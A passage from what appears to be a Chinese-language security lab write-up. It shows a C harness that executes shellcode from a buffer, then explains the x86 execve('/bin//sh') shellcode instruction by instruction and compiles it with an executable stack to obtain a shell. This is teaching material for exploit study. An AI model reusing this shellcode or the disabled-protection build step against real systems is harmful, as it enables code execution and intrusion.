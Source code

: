 ```c
   char buf[sizeof(code)];
   strcpy(buf, code);
   ((void(*)( ))buf)( );
} 
```

解释如下：

> 在Linux中，系统调用通过int 0x80实现，用系统调用号区分入口函数，其中寄存器eax存放调用号，ebx，ecx等寄存器存放参数。
>
> 这里调用execve，系统调用号为0xb，对应eax，参数分别为“/bin//sh”，NULL，NULL，对应ebx，ecx，edx。
>
> 故shellcode就是实现将eax=0xb，ebx=“/bin//sh”，ecx=0，edx=0。
>
> xorl    %eax,%eax    作用就是将eax清0
>
> pushl   %eax 		将eax入栈
>
> pushl   $0x68732f2f  就是将“//sh”的倒序的16进制入栈
>
> pushl   $0x6e69622f  将“/bin”的倒序的16进制入栈
>
> movl    %esp,%ebx    将esp赋给ebx，即ebx指向“/bin//sh”
>
> pushl   %eax         将eax的值0，入栈
>
> pushl   %ebx         将ebx，即“/bin//sh”的地址入栈
>
> movl    %esp,%ecx    将esp赋给ecx
>
> cdq 				 将edx使用eax的高位填充，这里eax=0,高位为0，故edx=0
>
> movb    $0x0b,%al    将eax的低字节赋为0x0b
>
> int     $0x80 	   进行系统调用




### Step2: 编译源码`call_shellcode.c`

```shell
gcc -z execstack -o call_shellcode call_shellcode.c
``
```



### Step3: 运行

可以看到获得shell

![call_shellcode](../images/lab3-task1-call-shellcode.png)
